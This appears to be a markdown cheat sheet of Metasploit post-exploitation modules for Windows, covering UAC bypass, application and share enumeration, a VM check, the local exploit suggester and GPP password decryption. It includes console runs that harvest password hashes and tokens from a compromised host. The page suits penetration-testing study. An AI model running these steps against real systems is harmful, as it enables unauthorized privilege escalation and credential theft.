

# Metasploit Modules

## Windows Gather Privileges

This module will print if UAC is enabled, and if the current account is ADMIN enabled. It will also print UID, foreground SESSION ID, is SYSTEM status and current process PRIVILEGES.

## Bypassuac

You can use one of the following modules to perform UAC bypass

```text
msf5 > search bypassuac 

Matching Modules 
================ 
   #   Name                                                   Disclosure Date  Rank       Check  Description 
   -   ----                                                   ---------------  ----       -----  ----------- 
   0   exploit/windows/local/bypassuac                        2010-12-31       excellent  No     Windows Escalate UAC Protection Bypass 
   1   exploit/windows/local/bypassuac_comhijack              1900-01-01       excellent  Yes    Windows Escalate UAC Protection Bypass (Via COM Handler Hijack) 
   2   exploit/windows/local/bypassuac_eventvwr               2016-08-15       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Eventvwr Registry Key) 
   3   exploit/windows/local/bypassuac_fodhelper              2017-05-12       excellent  Yes    Windows UAC Protection Bypass (Via FodHelper Registry Key) 
   4   exploit/windows/local/bypassuac_injection              2010-12-31       excellent  No     Windows Escalate UAC Protection Bypass (In Memory Injection) 
   5   exploit/windows/local/bypassuac_injection_winsxs       2017-04-06       excellent  No     Windows Escalate UAC Protection Bypass (In Memory Injection) abusing WinSXS 
   6   exploit/windows/local/bypassuac_silentcleanup          2019-02-24       excellent  No     Windows Escalate UAC Protection Bypass (Via SilentCleanup) 
   7   exploit/windows/local/bypassuac_sluihijack             2018-01-15       excellent  Yes    Windows UAC Protection Bypass (Via Slui File Handler Hijack) 
   8   exploit/windows/local/bypassuac_vbs                    2015-08-22       excellent  No     Windows Escalate UAC Protection Bypass (ScriptHost Vulnerability) 
   9   exploit/windows/local/bypassuac_windows_store_filesys  2019-08-22       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe) 
   10  exploit/windows/local/bypassuac_windows_store_reg      2019-02-19       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe) and Registry  
```

Example:



## Gather installed applications

```text
msf5 exploit(multi/handler) > use post/windows/gather/enum_applications 
msf5 post(windows/gather/enum_applications) > show options 
Module options (post/windows/gather/enum_applications): 
Name Current Setting Required Description 

SESSION yes The session to run this module on. 
msf5 post(windows/gather/enum_applications) > set session 1 
session => 1 
msf5 post(windows/gather/enum_applications) > run 
[*] Enumerating applications installed on DESKTOP-L1USHAD 
Installed Applications 
Name Version 

.NET Core SDK 1.1.11 (x64) 1.1.11 
.NET Core SDK 1.1.11 (x64) 1.1.11 
ClickOnce Bootstrapper Package for Microsoft .NET Framework 4.7.03083 
ClickOnce Bootstrapper Package for Microsoft .NET Framework 4.7.03083 
FreeMind 1.0.0 
FreeMind 1.0.0 
Google Chrome 71.0.3578.98 
Google Chrome 71.0.3578.98 
Google Update Helper 1.3.33.23 
Google Update Helper 1.3.33.23 
IntelliTraceProfilerProxy 15.0.17289.01 
IntelliTraceProfilerProxy 15.0.17289.01 
Java 8 Update 201 8.0.2010.9 
Java 8 Update 201 8.0.2010.9 
Java Auto Updater 2.8.201.9 
Java Auto Updater 2.8.201.9 
Microsoft .NET Core SDK - 2.1.202 (x64) 2.1.202 
Microsoft Office Professional Plus 2013 15.0.4569.1506 
Microsoft Visual C++ 2017 x86 Additional Runtime - 14.10.25008 14.10.25008 
Microsoft Visual C++ 2017 x86 Minimum Runtime - 14.10.25008 14.10.25008 
Microsoft Visual C++ 2017 x86 Minimum Runtime - 14.10.25008 14.10.25008 
Microsoft Visual Studio Setup Configuration 1.18.21.37008 
Microsoft Visual Studio Setup Configuration 1.18.21.37008 
Microsoft Word MUI (English) 2013 15.0.4569.1506 
Microsoft Word MUI (English) 2013 15.0.4569.1506 
Outils de vérification linguistique 2013 de Microsoft Office - Français 15.0.4569.1506 
Outils de vérification linguistique 2013 de Microsoft Office - Français 15.0.4569.1506 
TypeScript Power Tool 2.1.7.0 
TypeScript Power Tool 2.1.7.0 
TypeScript SDK 3.1.2.0 
vs_tipsmsi 15.0.27005
vs_tipsmsi 15.0.27005 
[+] Results stored in: /root/.msf4/loot/20190206101541_default_192.168.165.128_host.application_399426.txt 
[*] Post module execution completed 
msf5 post(windows/gather/enum_applications) 
```

## credential\_collector

The credential\_collector module harvests passwords hashes and tokens on the compromised host.

Example:

```text
meterpreter > run post/windows/gather/credentials/credential_collector  

[*] Running module against V-MAC-XP 
[+] Collecting hashes... 
    Extracted: Administrator:7bf4f254f224bb24aad3b435b51404ee:2892d23cdf84d7a70e2eb2b9f05c425e 
    Extracted: Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 
    Extracted: HelpAssistant:2e61920ebe3ed6e6d108113bf6318ee2:5abb944dc0761399b730f300dd474714 
    Extracted: SUPPORT_388945a0:aad3b435b51404eeaad3b435b51404ee:92e5d2c675bed8d4dc6b74ddd9b4c287 
[+] Collecting tokens... 
    NT AUTHORITY\LOCAL SERVICE 
    NT AUTHORITY\NETWORK SERVICE 
    NT AUTHORITY\SYSTEM 
    NT AUTHORITY\ANONYMOUS LOGON 
meterpreter > 
```

## Enum shares

The enum\_shares post module returns a listing of both configured and recently used shares on the compromised system. 

Example: 

```text
meterpreter > run post/windows/gather/enum_shares  

[*] Running against session 3 
[*] The following shares were found: 
[*] Name: Desktop 
[*] Path: C:\Documents and Settings\Administrator\Desktop 
[*] Type: 0 
[*]  
[*] Recent Mounts found: 
[*] \\192.168.1.250\software 
[*] \\192.168.1.250\Data 
[*]  
meterpreter > 
```

## Check if it's a VM

```text
msf5 post(windows/gather/enum_applications) > use post/windows/gather/checkvm 
msf5 post(windows/gather/checkvm) > show options 
Module options (post/windows/gather/checkvm): 
Name Current Setting Required Description 

SESSION yes The session to run this module on. 
msf5 post(windows/gather/checkvm) > set session 1 
session => 1 
msf5 post(windows/gather/checkvm) > run 
[] Checking if DESKTOP-L1USHAD is a Virtual Machine ..... 
[+] This is a VMware Virtual Machine 
[] Post module execution completed 
msf5 post(windows/gather/checkvm) > 
```

## Local\_exploit\_suggester

Metasploit has a nice module to check for local exploits: 

```text
meterpreter > background 
[*] Backgrounding session 1... 
msf5 exploit(multi/handler) > search local_exploit 

Matching Modules 
================ 

   Name                                      Disclosure Date  Rank    Check  Description 
   ----                                      ---------------  ----    -----  ----------- 
   post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester 

msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester 
msf5 post(multi/recon/local_exploit_suggester) > set session 1 
session => 1 
msf5 post(multi/recon/local_exploit_suggester) > run 

[*] 10.10.10.15 - Collecting local exploits for x86/windows... 
[*] 10.10.10.15 - 29 exploit checks are being tried... 
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated. 
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable. 
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable. 
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable. 
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated. 
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated. 
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable. 
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable. 
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable. 
[*] Post module execution completed 
```

## Weak service permissions

`exploit/windows/local/service_permissions`

## GPP

Decrypting passwords that are stored in the Group Policy Preferences can be done automatically though Metaasploit. The following post exploitation module will obtain and decrypt the cPassword from the Groups.xml file which is stored in the SYSVOL. 

`post/windows/gather/credentials/gpp` 

